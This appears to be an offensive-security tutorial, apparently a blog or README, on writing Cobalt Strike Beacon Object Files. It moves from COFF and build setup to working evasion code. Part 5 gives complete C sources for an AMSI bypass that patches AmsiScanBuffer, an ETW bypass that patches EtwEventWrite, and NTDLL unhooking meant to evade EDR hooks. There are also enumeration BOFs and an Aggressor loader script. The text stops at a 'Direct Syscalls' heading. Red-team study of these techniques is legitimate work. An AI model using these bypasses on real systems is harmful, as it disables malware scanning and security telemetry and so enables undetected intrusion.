




# Beacon Object Files - From Zero to Hero

Post-exploitation has always been a game of trade-offs between capability and stealth. The more powerful the technique, the louder the footprint. Beacon Object Files flip that equation. They give you a way to run arbitrary code inside an existing process without spawning new processes, injecting shellcode in the traditional sense, or leaving the kinds of artifacts that EDRs are trained to catch.

This guide takes you from the ground up. If you have never heard of a BOF before, start at the beginning. If you already know the basics and want to write evasion tooling, jump to Part 4. The structure is intentionally progressive - each section builds on the last.

---

## Part 1 - Understanding the Fundamentals

### What is a Beacon Object File?

A Beacon Object File is a compiled C program - specifically a COFF (Common Object File Format) object file - that Cobalt Strike's Beacon agent loads and executes directly inside its own process memory. It was introduced in Cobalt Strike 4.1 in 2020 and has since become the dominant pattern for extending Beacon without the noise of traditional execution methods.

The key word is "object file." A BOF is not a DLL, not an executable, not shellcode. It is the intermediate artifact you normally get halfway through compilation, before the linker runs. Beacon acts as that linker at runtime, parsing the COFF structure, resolving external symbol references, applying relocations, and then calling the entry point.



Every BOF has a specific entry point function named `go`. That is the convention - the loader calls `go` after it finishes linking. Everything starts there.

---

### Why BOFs Exist - The Problem with Fork and Run

Before BOFs, Cobalt Strike used a pattern called "fork and run." To execute a post-exploitation task, Beacon would spawn a new sacrificial process, inject a reflective DLL payload into it, capture the output through a pipe, and kill the process when done.



This worked, but it had serious problems:

- Every operation created a new process, which is one of the most reliably logged events on Windows
- Process injection triggered ETW events, Sysmon rules, and EDR behavioral detections
- The payload DLL was often megabytes in size, loaded into a freshly spawned process with no legitimate history
- Even with PPID spoofing and argument spoofing, the behavioral pattern was identifiable

BOFs eliminated most of that noise. Instead of spawning anything, Beacon loads and runs the BOF code inside its own process on its own thread. No new processes, no injection events, no pipe handles between processes.

| Aspect | Fork and Run | BOF |
| --- | --- | --- |
| Process creation | Yes | No |
| Typical size | 100KB or more | Under 10KB |
| Execution speed | Slower | Fast |
| Detection surface | High | Lower |
| Memory footprint | Large | Minimal |
| Best for | Long-running operations | Quick tasks |

The trade-off is that BOFs have strict constraints. They block Beacon's main thread while running, so they cannot be long-running. They have no standard C library. They have limited stack space. A BOF crash is a Beacon crash. These are real limitations, but for the majority of post-exploitation tasks - recon, credential operations, quick system changes - BOFs are the right tool.

---

### The COFF Format

Understanding COFF at a high level helps you debug BOF issues later. A COFF object file is structured in sections:

- **COFF Header** - machine type (x64 or x86), number of sections, pointer to the symbol table
- **Section Headers** - one per section, describing name, size, and location of `.text`, `.data`, `.rdata`, etc.
- **Raw Section Data** - the actual bytes: compiled code in `.text`, initialized globals in `.data`, string literals in `.rdata`
- **Relocation Tables** - records of every place in the code that needs an address fixed up at load time
- **Symbol Table** - names of every function and external reference in the file
- **String Table** - overflow storage for long symbol names

When Beacon's BOF loader receives a `.o` file, it reads the COFF header, allocates memory for each section, copies the raw section data in, then walks the relocation tables to patch up all the addresses. External symbols with the `LIBRARY$FunctionName` naming convention get resolved by splitting on the `$`, loading the DLL on the left, and calling `GetProcAddress` for the name on the right. Then it calls `go`.

---

### Key Constraints You Must Know

These constraints are not optional considerations - violating them crashes Beacon:

| Constraint | Explanation |
| --- | --- |
| Single-threaded | BOFs run on Beacon's main thread and block it entirely |
| Short-lived | Long operations freeze the implant - keep BOFs fast |
| No libc | Standard C library functions are not linked - use Win32 APIs |
| Stack limit | Approximately 4KB of stack - avoid large local arrays |
| Global variables | Uninitialized globals (.bss) are not supported - always initialize to a non-zero value |
| No crash isolation | An unhandled exception kills the Beacon session |

---

## Part 2 - Setting Up Your Development Environment

### What You Need

BOF development requires a C compiler that can output COFF object files. The most common setup uses MinGW-w64, which provides GCC-based cross-compilers for Windows targets from Linux, macOS, or Windows itself.

You also need the `beacon.h` header from Cobalt Strike's Arsenal Kit, which declares all the Beacon internal APIs. There is no substitute for this - it defines the functions your BOF calls to output data, parse arguments, and interact with the implant.

### Installing MinGW-w64

**Linux (recommended)**
```bash
sudo apt update && sudo apt install mingw-w64

x86_64-w64-mingw32-gcc --version
i686-w64-mingw32-gcc --version
```

**Windows**
```powershell
winget install -e --id mingw-w64.mingw-w64

gcc --version
```

**macOS**
```bash
brew install mingw-w64

x86_64-w64-mingw32-gcc --version
```

### Project Structure

A clean project layout keeps BOF development organized, especially once you have multiple BOFs sharing utility code and headers.

```
bof-project/
├── src/
│   └── mybof.c
├── include/
│   ├── beacon.h
│   └── bofdefs.h
├── dist/
│   ├── mybof.x64.o
│   └── mybof.x86.o
├── scripts/
│   ├── build.sh
│   └── build.bat
└── Makefile
```

### Build Scripts

The most important compiler flag for BOFs is `-c` - it tells the compiler to produce an object file instead of linking into an executable. Everything else is secondary.

**Makefile**
```makefile
CC_x64 = x86_64-w64-mingw32-gcc
CC_x86 = i686-w64-mingw32-gcc

CFLAGS = -c -Wall -Werror -Os -Iinclude

SRC = src/mybof.c
OUT_x64 = dist/mybof.x64.o
OUT_x86 = dist/mybof.x86.o

all: x64 x86

x64: $(SRC)
	$(CC_x64) $(CFLAGS) -o $(OUT_x64) $(SRC)

x86: $(SRC)
	$(CC_x86) $(CFLAGS) -o $(OUT_x86) $(SRC)

clean:
	rm -f dist/*.o

.PHONY: all x64 x86 clean
```

**Linux build script**
```bash
#!/bin/bash

SOURCE=$1
NAME=${2:-$(basename "$SOURCE" .c)}
INCLUDE_DIR="./include"
DIST_DIR="./dist"

mkdir -p "$DIST_DIR"

x86_64-w64-mingw32-gcc -c -Wall -Os -I"$INCLUDE_DIR" \
    -o "$DIST_DIR/${NAME}.x64.o" "$SOURCE"

i686-w64-mingw32-gcc -c -Wall -Os -I"$INCLUDE_DIR" \
    -o "$DIST_DIR/${NAME}.x86.o" "$SOURCE"
```

### Verifying Your Environment

Build a minimal test BOF and inspect the output:

```c
#include <windows.h>
#include "beacon.h"

void go(char *args, int len) {
    BeaconPrintf(CALLBACK_OUTPUT, "Environment verified\n");
}
```

```bash
make x64

file dist/test.x64.o
x86_64-w64-mingw32-nm dist/test.x64.o
x86_64-w64-mingw32-objdump -h dist/test.x64.o
```

The `file` command should report `Intel amd64 COFF object file`. The `nm` output should show `go` as a defined symbol and `__imp_BeaconPrintf` as an external reference. If you see those, the environment is ready.

---

## Part 3 - Writing Your First BOF

### The Entry Point

Every BOF starts with this signature:

```c
void go(char *args, int len) {
}
```

The `args` parameter is a packed binary buffer containing arguments the operator passed when invoking the BOF. The `len` parameter tells you how many bytes are in that buffer. If the BOF takes no arguments, both will be zero and null respectively.

This is also the moment Beacon's loader hands off control. Everything your BOF does happens synchronously on Beacon's thread. When `go` returns, Beacon resumes its normal operation.

### Sending Output to the Operator

Beacon provides two output functions. `BeaconPrintf` is the easier one - it works exactly like `printf` and sends formatted text back to the operator's console. `BeaconOutput` sends raw bytes and is useful when you need to transmit binary data.

```c
void BeaconPrintf(int type, char *fmt, ...);
void BeaconOutput(int type, char *data, int len);
```

The `type` parameter controls how the output is displayed:

```c
#define CALLBACK_OUTPUT      0x0
#define CALLBACK_ERROR       0x0d
#define CALLBACK_OUTPUT_UTF8 0x20
```

A straightforward BOF that checks privilege level:

```c
#include <windows.h>
#include "beacon.h"

DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$GetUserNameA(LPSTR lpBuffer, LPDWORD pcbBuffer);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$GetCurrentProcessId(VOID);

void go(char *args, int len) {
    char username[256];
    DWORD size = sizeof(username);

    if (ADVAPI32$GetUserNameA(username, &size)) {
        BeaconPrintf(CALLBACK_OUTPUT, "User: %s\n", username);
        BeaconPrintf(CALLBACK_OUTPUT, "PID:  %d\n", KERNEL32$GetCurrentProcessId());
        BeaconPrintf(CALLBACK_OUTPUT, "Admin: %s\n", BeaconIsAdmin() ? "Yes" : "No");
    } else {
        BeaconPrintf(CALLBACK_ERROR, "GetUserNameA failed\n");
    }
}
```

The `DECLSPEC_IMPORT` and `LIBRARY$FunctionName` syntax is the Dynamic Function Resolution system - we will cover it in depth in Part 4. For now, just know that this is how BOFs call Windows API functions.

### Parsing Arguments

When operators pass arguments to your BOF, Cobalt Strike packs them into a binary buffer using a format string. Your BOF unpacks them using the data parsing API.

The parser works through a `datap` struct that tracks your position in the buffer as you extract values:

```c
BeaconDataParse(&parser, args, len);

int  num    = BeaconDataInt(&parser);
short flags = BeaconDataShort(&parser);

int str_len;
char *target = BeaconDataExtract(&parser, &str_len);
```

You must extract values in the exact same order they were packed. The format strings map to extraction functions like this:

| Format char | Aggressor packing | BOF extraction |
| --- | --- | --- |
| `i` | 4-byte integer | `BeaconDataInt` |
| `s` | 2-byte short | `BeaconDataShort` |
| `z` | ASCII string | `BeaconDataExtract` |
| `Z` | Wide string | `BeaconDataExtract` |
| `b` | Binary blob | `BeaconDataExtract` |

### Building Complex Output with the Format API

For output that builds incrementally - like a table of processes - use the Format API. It lets you append data into a buffer and send it all at once at the end, which is more efficient than calling `BeaconPrintf` hundreds of times.

```c
formatp buffer;
BeaconFormatAlloc(&buffer, 32768);

BeaconFormatPrintf(&buffer, "%-8s %-8s %s\n", "PID", "PPID", "Name");

int size;
char *output = BeaconFormatToString(&buffer, &size);
BeaconOutput(CALLBACK_OUTPUT, output, size);

BeaconFormatFree(&buffer);
```

Always call `BeaconFormatFree` when done. The buffer is heap-allocated by Beacon and needs to be released.

### A Working Process Lister

Here is a complete, functional BOF that enumerates running processes:

```c
#include <windows.h>
#include <tlhelp32.h>
#include "beacon.h"

DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateToolhelp32Snapshot(DWORD, DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32First(HANDLE, LPPROCESSENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32Next(HANDLE, LPPROCESSENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE);

void go(char *args, int len) {
    HANDLE hSnap;
    PROCESSENTRY32 pe32;
    formatp buffer;

    BeaconFormatAlloc(&buffer, 32768);

    hSnap = KERNEL32$CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnap == INVALID_HANDLE_VALUE) {
        BeaconPrintf(CALLBACK_ERROR, "Snapshot failed\n");
        return;
    }

    pe32.dwSize = sizeof(PROCESSENTRY32);

    BeaconFormatPrintf(&buffer, "\n%-8s %-8s %s\n", "PID", "PPID", "Name");
    BeaconFormatPrintf(&buffer, "%-8s %-8s %s\n", "---", "----", "----");

    if (KERNEL32$Process32First(hSnap, &pe32)) {
        do {
            BeaconFormatPrintf(&buffer, "%-8d %-8d %s\n",
                pe32.th32ProcessID,
                pe32.th32ParentProcessID,
                pe32.szExeFile);
        } while (KERNEL32$Process32Next(hSnap, &pe32));
    }

    int size;
    char *output = BeaconFormatToString(&buffer, &size);
    BeaconOutput(CALLBACK_OUTPUT, output, size);

    BeaconFormatFree(&buffer);
    KERNEL32$CloseHandle(hSnap);
}
```

### Connecting it to Cobalt Strike with an Aggressor Script

A BOF on its own does nothing. You need an Aggressor script to load and invoke it from the Cobalt Strike console:

```
alias ps {
    local('$handle $data $args');

    $handle = openf(script_resource("ps.x64.o"));
    $data = readb($handle, -1);
    closef($handle);

    $args = bof_pack($1, "");
    beacon_inline_execute($1, $data, "go", $args);
}

beacon_command_register(
    "ps",
    "List running processes",
    "Synopsis: ps\n\nEnumerate all processes on the target."
);
```

The `beacon_inline_execute` function sends the BOF bytes and packed arguments to the Beacon. The third argument `"go"` names the entry point to call.

---

## Part 4 - Dynamic Function Resolution

### Why You Cannot Just Call Windows APIs Directly

A normal executable or DLL has an import table. When Windows loads it, the loader resolves every imported function address before handing off control. BOFs do not have that luxury - they are object files, not fully linked PE images. There is no import table for Windows to process.

DFR is Beacon's solution. You declare Windows API functions using a special naming convention, and the BOF loader resolves them at runtime by parsing the symbol name, loading the appropriate DLL, and calling `GetProcAddress`.



### The DFR Syntax

The declaration format is:

```
DECLSPEC_IMPORT  RETURN_TYPE  CALLING_CONVENTION  LIBRARY$FunctionName(PARAMETERS);
```

Every component matters:

- `DECLSPEC_IMPORT` marks the symbol as an external import that the loader must resolve
- The calling convention must match the actual API (`WINAPI` for most Win32, `NTAPI` for native API, `__cdecl` for variadic C runtime functions)
- The library name is the DLL name without the `.dll` extension, in uppercase
- The `$` separator is mandatory and must be exactly one dollar sign
- The function name is case-sensitive

```c
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE hObject);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtClose(HANDLE Handle);
DECLSPEC_IMPORT int __cdecl MSVCRT$sprintf(char *buffer, const char *format, ...);
```

### Common Libraries Reference

```c
KERNEL32$...    // kernel32.dll - core OS functions
NTDLL$...       // ntdll.dll - native API
ADVAPI32$...    // advapi32.dll - security and registry
USER32$...      // user32.dll - window and message APIs
WS2_32$...      // ws2_32.dll - Winsock networking
WINHTTP$...     // winhttp.dll - HTTP client
CRYPT32$...     // crypt32.dll - cryptography
NETAPI32$...    // netapi32.dll - network management
MSVCRT$...      // msvcrt.dll - C runtime (strlen, memcpy, etc.)
```

### A Comprehensive DFR Header

Rather than redeclaring the same functions in every BOF, build a shared `bofdefs.h` that you include everywhere:

```c
#pragma once

#include <windows.h>
#include <winternl.h>

DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$GetCurrentProcess(VOID);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$GetCurrentProcessId(VOID);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$TerminateProcess(HANDLE, UINT);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$GetCurrentThread(VOID);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$GetCurrentThreadId(VOID);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateThread(LPSECURITY_ATTRIBUTES,
    SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$SuspendThread(HANDLE);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$ResumeThread(HANDLE);

DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$VirtualAlloc(LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$VirtualFree(LPVOID, SIZE_T, DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$VirtualProtect(LPVOID, SIZE_T, DWORD, PDWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$ReadProcessMemory(HANDLE, LPCVOID, LPVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$GetProcessHeap(VOID);
DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$HeapAlloc(HANDLE, DWORD, SIZE_T);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$HeapFree(HANDLE, DWORD, LPVOID);

DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT DWORD WINAPI KERNEL32$GetLastError(VOID);
DECLSPEC_IMPORT HMODULE WINAPI KERNEL32$GetModuleHandleA(LPCSTR);
DECLSPEC_IMPORT HMODULE WINAPI KERNEL32$LoadLibraryA(LPCSTR);
DECLSPEC_IMPORT FARPROC WINAPI KERNEL32$GetProcAddress(HMODULE, LPCSTR);

DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateToolhelp32Snapshot(DWORD, DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32First(HANDLE, LPPROCESSENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32Next(HANDLE, LPPROCESSENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Thread32First(HANDLE, LPTHREADENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Thread32Next(HANDLE, LPTHREADENTRY32);

DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtClose(HANDLE);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtAllocateVirtualMemory(HANDLE, PVOID*,
    ULONG_PTR, PSIZE_T, ULONG, ULONG);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtWriteVirtualMemory(HANDLE, PVOID,
    PVOID, SIZE_T, PSIZE_T);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtProtectVirtualMemory(HANDLE, PVOID*,
    PSIZE_T, ULONG, PULONG);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS, PVOID, ULONG, PULONG);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtQueryInformationProcess(HANDLE,
    PROCESSINFOCLASS, PVOID, ULONG, PULONG);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtOpenProcess(PHANDLE, ACCESS_MASK,
    POBJECT_ATTRIBUTES, PCLIENT_ID);
DECLSPEC_IMPORT NTSTATUS NTAPI NTDLL$NtCreateThreadEx(PHANDLE, ACCESS_MASK,
    POBJECT_ATTRIBUTES, HANDLE, PVOID, PVOID, ULONG,
    SIZE_T, SIZE_T, SIZE_T, PVOID);

DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$OpenProcessToken(HANDLE, DWORD, PHANDLE);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$GetTokenInformation(HANDLE,
    TOKEN_INFORMATION_CLASS, LPVOID, DWORD, PDWORD);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$DuplicateTokenEx(HANDLE, DWORD,
    LPSECURITY_ATTRIBUTES, SECURITY_IMPERSONATION_LEVEL, TOKEN_TYPE, PHANDLE);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$ImpersonateLoggedOnUser(HANDLE);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$RevertToSelf(VOID);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$LookupAccountSidA(LPCSTR, PSID, LPSTR,
    LPDWORD, LPSTR, LPDWORD, PSID_NAME_USE);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$LookupPrivilegeValueA(LPCSTR, LPCSTR, PLUID);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$AdjustTokenPrivileges(HANDLE, BOOL,
    PTOKEN_PRIVILEGES, DWORD, PTOKEN_PRIVILEGES, PDWORD);
DECLSPEC_IMPORT BOOL WINAPI ADVAPI32$GetUserNameA(LPSTR, LPDWORD);

DECLSPEC_IMPORT int __cdecl MSVCRT$strlen(const char*);
DECLSPEC_IMPORT char* __cdecl MSVCRT$strcpy(char*, const char*);
DECLSPEC_IMPORT int __cdecl MSVCRT$strcmp(const char*, const char*);
DECLSPEC_IMPORT char* __cdecl MSVCRT$strstr(const char*, const char*);
DECLSPEC_IMPORT void* __cdecl MSVCRT$memcpy(void*, const void*, size_t);
DECLSPEC_IMPORT void* __cdecl MSVCRT$memset(void*, int, size_t);
DECLSPEC_IMPORT int __cdecl MSVCRT$memcmp(const void*, const void*, size_t);
DECLSPEC_IMPORT int __cdecl MSVCRT$sprintf(char*, const char*, ...);
DECLSPEC_IMPORT int __cdecl MSVCRT$atoi(const char*);

#define HEAP_ALLOC(size) KERNEL32$HeapAlloc(KERNEL32$GetProcessHeap(), HEAP_ZERO_MEMORY, size)
#define HEAP_FREE(ptr)   KERNEL32$HeapFree(KERNEL32$GetProcessHeap(), 0, ptr)
```

### Memory Management Without libc

You cannot use `malloc` and `free`. The options are `HeapAlloc` for general allocations and `VirtualAlloc` for larger or specially protected regions.

A simple decision rule:
- Less than 4KB and short-lived - use a stack-allocated local array
- Under 1MB - use `HeapAlloc` via the `HEAP_ALLOC` macro
- Larger than 1MB or needs specific page protection - use `VirtualAlloc`

```c
char *buf = (char*)HEAP_ALLOC(1024);
if (buf) {
    MSVCRT$memset(buf, 0, 1024);
    HEAP_FREE(buf);
}
```

### Common DFR Mistakes

**Missing DECLSPEC_IMPORT** - without it the symbol is not recognized as an external import and will not be resolved.

**Wrong calling convention** - NTDLL native functions use `NTAPI`, not `WINAPI`. Using the wrong convention corrupts the stack on x86.

**Case sensitivity** - `KERNEL32$closehandle` will fail. The function name must match exactly: `KERNEL32$CloseHandle`.

**Including .dll in the library name** - `KERNEL32.DLL$CloseHandle` is wrong. Drop the extension: `KERNEL32$CloseHandle`.

---

## Part 5 - Advanced Techniques

This section covers the techniques that separate basic BOF usage from advanced offensive tradecraft. All of these should only be used in authorized engagements or controlled lab environments.

### Windows Defense Layers

Before bypassing defenses, you need to understand what you are bypassing:



User mode defenses can be bypassed from user mode. Kernel mode defenses generally cannot - they require a kernel driver. BOFs target the user mode layer.

---

### AMSI Bypass

AMSI (Antimalware Scan Interface) is a Microsoft API that allows security products to scan content before it executes. It is loaded into processes like PowerShell and is the reason that many script-based payloads get caught before they run.

The scan happens inside `AmsiScanBuffer`. If we patch the first few bytes of that function to return immediately with a "clean" result, every subsequent scan in the process returns clean regardless of the actual content.

The patch is three bytes: `xor eax, eax` (opcode `31 C0`) sets the return value to zero, and `ret` (opcode `C3`) returns immediately. Zero maps to `S_OK` in COM error codes and `AMSI_RESULT_CLEAN` in the AMSI result enum.

```c
#include <windows.h>
#include "beacon.h"
#include "bofdefs.h"

void go(char *args, int len) {
    HMODULE hAmsi = KERNEL32$LoadLibraryA("amsi.dll");
    if (!hAmsi) {
        BeaconPrintf(CALLBACK_OUTPUT, "AMSI not loaded in this process\n");
        return;
    }

    FARPROC pAmsiScanBuffer = KERNEL32$GetProcAddress(hAmsi, "AmsiScanBuffer");
    if (!pAmsiScanBuffer) {
        BeaconPrintf(CALLBACK_ERROR, "AmsiScanBuffer not found\n");
        return;
    }

    BYTE *func = (BYTE*)pAmsiScanBuffer;
    if (func[0] == 0x31 && func[1] == 0xC0 && func[2] == 0xC3) {
        BeaconPrintf(CALLBACK_OUTPUT, "AMSI already patched\n");
        return;
    }

    BYTE patch[] = { 0x31, 0xC0, 0xC3 };
    DWORD oldProtect;

    if (!KERNEL32$VirtualProtect(pAmsiScanBuffer, sizeof(patch),
            PAGE_EXECUTE_READWRITE, &oldProtect)) {
        BeaconPrintf(CALLBACK_ERROR, "VirtualProtect failed: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    MSVCRT$memcpy(pAmsiScanBuffer, patch, sizeof(patch));
    KERNEL32$VirtualProtect(pAmsiScanBuffer, sizeof(patch), oldProtect, &oldProtect);

    BeaconPrintf(CALLBACK_OUTPUT, "AMSI patched\n");
}
```

This is a well-known technique and modern EDRs monitor for it. The patch bytes `31 C0 C3` at the start of `AmsiScanBuffer` are a reliable signature. Consider this a baseline to understand the concept, not a production-ready bypass.

---

### ETW Bypass

ETW (Event Tracing for Windows) is the event logging infrastructure that feeds telemetry to security products. The .NET runtime, PowerShell, and many other subsystems emit events through ETW. Security products consume these events in real time.

The function `EtwEventWrite` in ntdll.dll is the write path for all ETW events from user mode. Patching it with the same `xor eax, eax; ret` pattern stops all ETW event writes from the current process.

```c
#include <windows.h>
#include "beacon.h"
#include "bofdefs.h"

void go(char *args, int len) {
    HMODULE hNtdll = KERNEL32$GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        BeaconPrintf(CALLBACK_ERROR, "Could not get ntdll handle\n");
        return;
    }

    FARPROC pEtwEventWrite = KERNEL32$GetProcAddress(hNtdll, "EtwEventWrite");
    if (!pEtwEventWrite) {
        BeaconPrintf(CALLBACK_ERROR, "EtwEventWrite not found\n");
        return;
    }

    BYTE *func = (BYTE*)pEtwEventWrite;
    if (func[0] == 0x31 && func[1] == 0xC0 && func[2] == 0xC3) {
        BeaconPrintf(CALLBACK_OUTPUT, "ETW already patched\n");
        return;
    }

    BYTE patch[] = { 0x31, 0xC0, 0xC3 };
    DWORD oldProtect;

    if (!KERNEL32$VirtualProtect(pEtwEventWrite, sizeof(patch),
            PAGE_EXECUTE_READWRITE, &oldProtect)) {
        BeaconPrintf(CALLBACK_ERROR, "VirtualProtect failed: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    MSVCRT$memcpy(pEtwEventWrite, patch, sizeof(patch));
    KERNEL32$VirtualProtect(pEtwEventWrite, sizeof(patch), oldProtect, &oldProtect);

    BeaconPrintf(CALLBACK_OUTPUT, "ETW patched - event logging disabled\n");
}
```

---

### NTDLL Unhooking

EDRs gain visibility into system calls by injecting their own DLL into every process and placing inline hooks at the start of sensitive NTDLL functions. When your code calls `NtAllocateVirtualMemory`, it actually jumps to the EDR's hook first, which inspects the call, logs telemetry, and then forwards to the real function.

Unhooking restores the original NTDLL code by reading a clean copy from disk. The ntdll.dll file on disk has never been touched by the EDR - the hooks only exist in the in-memory copy. By mapping the file directly and copying the original `.text` section over the hooked one, we restore all the original function bytes.

```c
#include <windows.h>
#include "beacon.h"
#include "bofdefs.h"

DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateFileA(LPCSTR, DWORD, DWORD,
    LPSECURITY_ATTRIBUTES, DWORD, DWORD, HANDLE);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateFileMappingA(HANDLE,
    LPSECURITY_ATTRIBUTES, DWORD, DWORD, DWORD, LPCSTR);
DECLSPEC_IMPORT LPVOID WINAPI KERNEL32$MapViewOfFile(HANDLE, DWORD, DWORD, DWORD, SIZE_T);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$UnmapViewOfFile(LPCVOID);

void go(char *args, int len) {
    HANDLE hFile = INVALID_HANDLE_VALUE;
    HANDLE hMapping = NULL;
    LPVOID pMapping = NULL;

    HMODULE hNtdll = KERNEL32$GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        BeaconPrintf(CALLBACK_ERROR, "Could not get ntdll handle\n");
        return;
    }

    hFile = KERNEL32$CreateFileA("C:\\Windows\\System32\\ntdll.dll",
        GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        BeaconPrintf(CALLBACK_ERROR, "Could not open ntdll.dll: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    hMapping = KERNEL32$CreateFileMappingA(hFile, NULL,
        PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    if (!hMapping) {
        KERNEL32$CloseHandle(hFile);
        BeaconPrintf(CALLBACK_ERROR, "CreateFileMapping failed: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    pMapping = KERNEL32$MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
    if (!pMapping) {
        KERNEL32$CloseHandle(hMapping);
        KERNEL32$CloseHandle(hFile);
        BeaconPrintf(CALLBACK_ERROR, "MapViewOfFile failed: %d\n",
            KERNEL32$GetLastError());
        return;
    }

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hNtdll;
    PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hNtdll + dosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);

    for (WORD i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
        if (MSVCRT$strcmp((char*)section[i].Name, ".text") == 0) {
            LPVOID hookedText = (LPVOID)((BYTE*)hNtdll + section[i].VirtualAddress);
            LPVOID cleanText  = (LPVOID)((BYTE*)pMapping + section[i].VirtualAddress);

            DWORD oldProtect;
            if (!KERNEL32$VirtualProtect(hookedText, section[i].Misc.VirtualSize,
                    PAGE_EXECUTE_READWRITE, &oldProtect)) {
                BeaconPrintf(CALLBACK_ERROR, "VirtualProtect failed: %d\n",
                    KERNEL32$GetLastError());
                break;
            }

            MSVCRT$memcpy(hookedText, cleanText, section[i].Misc.VirtualSize);
            KERNEL32$VirtualProtect(hookedText, section[i].Misc.VirtualSize,
                oldProtect, &oldProtect);

            BeaconPrintf(CALLBACK_OUTPUT, "NTDLL .text section restored\n");
            break;
        }
    }

    KERNEL32$UnmapViewOfFile(pMapping);
    KERNEL32$CloseHandle(hMapping);
    KERNEL32$CloseHandle(hFile);
}
```

This technique removes hooks placed in ntdll's `.text` section. It does not affect hooks in kernel32, kernelbase, or other DLLs. Many modern EDRs have moved hooks to kernelbase specifically because ntdll unhooking became common.

---

### Direct Syscalls

